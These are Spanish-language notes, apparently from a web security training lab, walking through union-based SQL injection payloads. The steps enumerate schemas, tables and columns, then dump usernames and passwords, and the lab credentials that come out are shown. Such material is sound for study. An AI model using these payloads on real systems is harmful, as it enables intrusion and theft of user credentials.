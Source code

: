
**Ejemplo**

filter?category=Lifestyle' order by 2 -- - 

Lifestyle' union SELECT 'a','version' FROM dual -- -

### nombre de los esquemas 

' union SELECT null,schema_name FROM information_schema.schemata -- -

**Resultado**

-information_schema
-public
-pg_catalog

### nombres de las tablas 

' union SELECT null,table_name FROM information_schema.tables -- -


### Tablas de una base de datos 

' union SELECT table_name, null FROM information_schema.tables WHERE table_schema='public' -- -

**Resultado**

- users_acnzwu
- products


### Columnas de una tabla de una base de datos 

' union SELECT column_name, null FROM information_schema.columns  WHERE table_schema='public' and table_name='users_acnzwu'-- -

**Resultado**

- email
- password_nqwwgf
- username_huugjg

### Listar el contenido de las columnas de una tabla


' union SELECT username_huugjg, password_nqwwgf FROM public.users_acnzwu-- -

**Resultado**

carlos
r2snfvhtnxghlfy9gjjj

wiener
f2i4se6mb8bbz5qphi83

administrator
kdqrjyq5mdomujy5aewn

